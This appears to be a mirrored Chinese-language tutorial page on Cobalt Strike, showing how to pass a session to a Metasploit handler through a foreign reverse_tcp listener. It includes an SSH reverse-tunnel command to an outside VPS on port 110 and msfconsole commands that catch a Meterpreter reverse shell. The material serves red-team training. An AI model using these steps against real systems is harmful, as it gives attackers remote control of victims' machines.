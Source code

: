 > 原文：[http://book.iwonder.run/Tools/Cobalt Strike/12.html](http://book.iwonder.run/Tools/Cobalt Strike/12.html)

## windows/foreign/reverse_tcp [ 反向 tcp 外部监听器 ]

> 跟上面差不多,只不过这次换了下协议而已,首先,还是先把本地和 vps 之间的 ssh 隧道打通,具体操作如下

```
# ssh -C -f -N -g -R 0.0.0.0:110:192.168.3.57:110 root@45.63.121.57 -p 22
# ps -ef | grep "192.168.3.57" 
```

![image](img/f93ec4fe862903b8a7f3d9ba148e11a4.png)

> 而后,创建一个 reverse_tcp 的外部监听器

![image](img/3effa6686544c985d0c5e6f9b706f1a6.png)

> 继续使用派生功能,将其派生到 reverse_tcp 这个外部监听器上

![image](img/fcc27eebfd55b4550a2b18ea5eecb9bb.png)

> 稍等片刻,便会看到本地 msf 的 meterpreter 上线,注意,此处外部监听器用的是 tcp 的 110 端口,那么你后面的 meterpreter payload 也一定要用 tcp 的 110 端口,这样数据才能正常对接交换

```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set lhost 192.168.3.57
msf5 > set lport 110
msf5 > set exitonsession false
msf5 > exploit -j
msf5 > sessions -i 1
meterpreter > sysinfo
meterpreter > getuid 
```

![image](img/43b145b9b47f4417164301c3a15507d0.png)

